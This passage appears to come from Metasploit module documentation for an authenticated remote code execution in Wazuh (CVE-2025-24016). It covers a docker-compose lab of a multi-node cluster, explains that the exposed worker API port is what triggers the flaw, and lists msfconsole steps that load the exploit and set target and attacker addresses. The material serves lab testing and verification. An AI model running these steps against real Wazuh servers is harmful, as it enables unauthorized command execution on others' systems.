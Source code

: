 ```yaml
  master-wazuh-queue:
  master-wazuh-var-multigroups:
  master-wazuh-integrations:
  master-wazuh-active-response:
  master-wazuh-agentless:
  master-wazuh-wodles:
  master-filebeat-etc:
  master-filebeat-var:
  worker-wazuh-api-configuration:
  worker-wazuh-etc:
  worker-wazuh-logs:
  worker-wazuh-queue:
  worker-wazuh-var-multigroups:
  worker-wazuh-integrations:
  worker-wazuh-active-response:
  worker-wazuh-agentless:
  worker-wazuh-wodles:
  worker-filebeat-etc:
  worker-filebeat-var:
  wazuh-indexer-data-1:
  wazuh-indexer-data-2:
  wazuh-indexer-data-3:
  wazuh-dashboard-config:
  wazuh-dashboard-custom:
```
* Run following command `docker-compose up -d` to install and run the Wazuh server cluster environment.
* Your Wazuh server should be accessible on `https://localhost` with an active Wazuh server cluster running.
* You can bring down the environment for a fresh start with the command `docker-compose down`.

You are now ready to test the module.

**IMPORTANT NOTE:**
This vulnerability can only be triggered in a Wazuh multi-node cluster configuration, because it needs the distributed API function.
It is important to understand that the worker-server port (`55000`) should be exposed to the outside world in order to trigger
this vulnerability. In the above lab setup, it is exposed on port `56000` (see the `docker-compose.yml` file)
Using it directly on the master-server port (`55000`) will not work because the DAPI request is not leveraged in this case, hence
the vulnerable code will not be triggered.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/wazuh_auth_rce_cve_2025_24016`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command>`
- [ ] `exploit`
